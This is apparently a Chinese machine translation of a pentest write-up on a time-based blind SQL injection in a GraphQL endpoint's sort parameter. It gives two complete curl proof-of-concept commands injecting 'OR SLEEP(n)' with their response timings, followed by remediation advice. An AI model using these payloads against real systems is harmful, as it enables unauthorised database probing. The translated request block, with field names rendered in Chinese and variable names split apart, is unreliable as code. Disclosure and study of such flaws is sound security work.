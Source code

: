 # GraphQL 中基于时间的盲 SQL 注入

> 原文：<https://infosecwriteups.com/time-based-blind-sql-injection-in-graphql-39a25a1dfb3c?source=collection_archive---------0----------------------->

我听说过很多关于 GraphQL 的事情，但是由于时间限制，我一直没有时间去了解它。最近拿到了一个用 GraphQL 中的 API 进行 pentest 的应用。经过一段时间的测试，我能够找到基于时间的盲人 SQL 注入。我们将假设网站为 http://example.com

# **总结**

[http://example.com/api/graphql](http://example.com/api/graphql)端点中的" *sortc"* 参数易受 SQL 注入攻击。这使得攻击者能够从公共和安全的模式中提取信息。

可能还有其他易受 **SQL 注入影响的参数。**

# **影响**

盲 SQL 注入的工作方式是执行基于时间的查询，然后在给定时间后返回结果，表明 SQL 查询执行成功。利用这种方法，攻击者可以列举出使用了哪个模式或者使用了哪个数据库。

然后，攻击者试图确定他的查询何时返回真或假，然后他可以在 RDBMS 上采集指纹。这将使整个攻击变得容易得多。如果使用基于时间的方法，这有助于确定正在使用的数据库类型。另一种流行的方法是调用返回当前日期的函数。MySQL、MSSQL 和 Oracle 对此有不同的函数，分别是 *now()* 、 *getdate()* 和 *sysdate()* 。

# **概念验证**

1)登录网站。

2)拦截以下请求:[http://example.com/api/graphql](http://example.com/api/graphql)

3)在请求正文中，在 sortc 中添加“*或 SLEEP(20)”*

> 请求:
> 
> {"operationName":"pages "，" variables":{"offset":0，" limit":10，" **sortc** ":" **name** ，" sortrev":false}，" query":"query pages($offset: Int！，$limit: Int！，$sortc: String，$ sortrev:Boolean){ \ n pages(offset:＄offset，limit:＄limit，sortc:＄sort column，sort reverse:＄sort reverse){ \ n id \ n \ n \ n _ _ typen \ n } \ n me { \ n first n \ n lastN \ n usernn \ n _ _ typen \ n } \ n components { \ n title \ n _ _ typen \ n } \ n templates { \ n title \ n _ _ typen \ n \ n } \ n 字体{ \ n \ n \ n _ _ typen \ n \ n } \ n 合作伙伴{ \ n id \ n \ n

4)等待一段时间，检查服务器响应的延迟

5)在这种情况下，数据库随后崩溃。所以我没有进一步列举就报告了漏洞。

**通过卷曲:**

1)运行 curl 命令并检查响应时间，睡眠(2):

```
time curl -i -s -k  -X $'POST' \
    -H $'Host: example.com' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://example.com/dashboard' -H $'content-type: application/json' -H $'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c' -H $'Origin: http://example.com' -H $'Content-Length: 662' -H $'DNT: 1' -H $'Connection: close' \
    --data-binary $'{"operationName":"pages","variables":{"offset":0,"limit":10,"sortc":"name **OR SLEEP(2)**","sortrev":false},"query":"query pages($offset: Int!, $limit: Int!, $sortc: String, $sortrev: Boolean) {\n  pages(offset: $offset, limit: $limit, sortc: $sortColumn, sortReverse: $sortReverse) {\n    id\n    n\n    __typen\n  }\n  me {\n    firstN\n    lastN\n    usern\n    __typen\n  }\n  components {\n    title\n    __typen\n  }\n  templates {\n    title\n    __typen\n  }\n  fonts {\n    n\n    __typen\n  }\n  partners {\n    id\n    n\n    banners {\n      n\n      __typen\n    }\n    __typen\n  }\n}\n"}' \
    $'http://example.com/api/graphql'
```

响应时间:

*   真正的 0m4.191s
*   用户 0m0.006s
*   sys 0m0.011s

2)运行 curl 命令并检查响应时间，睡眠(10):

```
time curl -i -s -k  -X $'POST' \
    -H $'Host: example.com' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://example.com/dashboard' -H $'content-type: application/json' -H $'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c' -H $'Origin: http://example.com' -H $'Content-Length: 663' -H $'DNT: 1' -H $'Connection: close' \
    --data-binary $'{"operationName":"pages","variables":{"offset":0,"limit":10,"sortc":"name **OR SLEEP(10)**","sortrev":false},"query":"query pages($offset: Int!, $limit: Int!, $sortc: String, $sortrev: Boolean) {\n  pages(offset: $offset, limit: $limit, sortc: $sortColumn, sortReverse: $sortReverse) {\n    id\n    n\n    __typen\n  }\n  me {\n    firstN\n    lastN\n    usern\n    __typen\n  }\n  components {\n    title\n    __typen\n  }\n  templates {\n    title\n    __typen\n  }\n  fonts {\n    n\n    __typen\n  }\n  partners {\n    id\n    n\n    banners {\n      n\n      __typen\n    }\n    __typen\n  }\n}\n"}' \
    $'http://example.com/api/graphql'
```

响应时间:

*   真实 0m20.220s
*   用户 0m0.006s
*   sys 0m0.006s

# **变通解决方案**

*   使用预处理语句(带参数化查询)
*   存储过程的使用。
*   白名单输入验证。
*   转义所有用户提供的输入
*   **实施最低特权**

# **参考**

[https://medium . com/@ localh0t/discovering-graph QL-endpoints-and-sqli-vulnerability-5d 39 f 26 ce a2e](https://medium.com/@localh0t/discovering-graphql-endpoints-and-sqli-vulnerabilities-5d39f26cea2e)

[https://hackerone.com/reports/435066](https://hackerone.com/reports/435066)

[https://cheatsheetseries . owasp . org/Cheat sheets/SQL _ Injection _ Prevention _ Cheat _ sheet . html](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

[![](img/4bc5de35955c00939383a18fb66b41d8.png)](https://www.buymeacoffee.com/justmorpheus)

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)